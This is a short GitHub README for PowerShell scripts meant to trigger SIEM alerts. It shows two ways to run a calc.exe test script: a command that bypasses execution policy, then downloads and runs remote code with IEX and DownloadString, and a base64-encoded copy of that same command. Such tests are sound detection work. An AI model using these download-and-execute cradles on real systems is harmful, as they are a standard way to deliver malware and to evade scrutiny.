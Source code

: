 # bluetests
Just some basic scripts for testing SIEM alerts


Invoke-Calc
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/bluetests/main/invokecalc.ps1');invoke-calc"

Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==
